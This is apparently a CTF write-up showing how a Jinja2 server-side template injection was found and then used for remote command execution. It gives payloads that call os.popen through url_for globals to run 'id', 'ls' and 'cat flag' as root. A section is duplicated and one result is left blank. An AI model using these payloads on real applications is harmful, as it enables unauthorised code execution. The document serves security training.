





# SSTI Challenge Write-up (SSTI1)

## Overview
This CTF challenge presented a simple text input field with the note that the application would "announce everything typed" by the user. Although the functionality appeared harmless, it allowed for deeper injection tests, ultimately leading to a successful Server-Side Template Injection (SSTI) exploit.

---

## Reconnaissance Attempts

### Initial Testing – XSS
The first assumption was that the input might reflect output directly into the page, so cross-site scripting (XSS) payloads were tested.
- Basic payloads worked and confirmed reflected input.
- However, further XSS exploitation did not lead to access to sensitive data or backend functionality.

### Inspection & Clue Discovery
- Browser inspection did not reveal additional vulnerabilities.
- The browser tab title displayed **`SSTI1`**, hinting strongly at a server-side template injection scenario.

---

## SSTI Detection

### Learning Payload Structure
- PortSwigger references were used to validate template behavior.

- A helpful video from **PwnFunction** demonstrated how to build working payloads for Jinja-based SSTI.

To verify whether the backend was vulnerable to SSTI:
1. Tested a basic Jinja-style expression:
   ```jinja
   {{ 7*'7' }}
   ```
2. The server responded with:
   ```
   7777777
   ```

This confirmed that the application was using **Jinja2 templating**, meaning SSTI payloads were likely exploitable.

---

## Exploitation Phase

### Learning Payload Structure
- PortSwigger references were used to validate template behavior.
- A helpful video from **PwnFunction** demonstrated how to build working payloads for Jinja-based SSTI.

### Privilege Check
Using a standard Jinja exploitation chain, the payload revealed the user executing the application:
```jinja
{{ url_for.__globals__.os.popen("id").read() }}
```
Output confirmed:
```
uid=0(root) ...
```
The application process was running with **root** privileges.

### Enumeration
Directory discovery was next:
```jinja
{{ url_for.__globals__.os.popen("ls").read() }}
```
This revealed a files named:


### Retrieving the Flag
Finally, reading the file succeeded:
```jinja
{{ url_for.__globals__.os.popen("cat flag").read() }}
```

The contents of the flag file were printed, completing the challenge.

---

## Key Takeaways
- Reflected input does not always mean XSS only — always test for multiple injection classes.
- Subtle clues (like a tab title) may reveal the intended attack vector.
- SSTI is extremely powerful, especially in Python/Jinja-based applications.
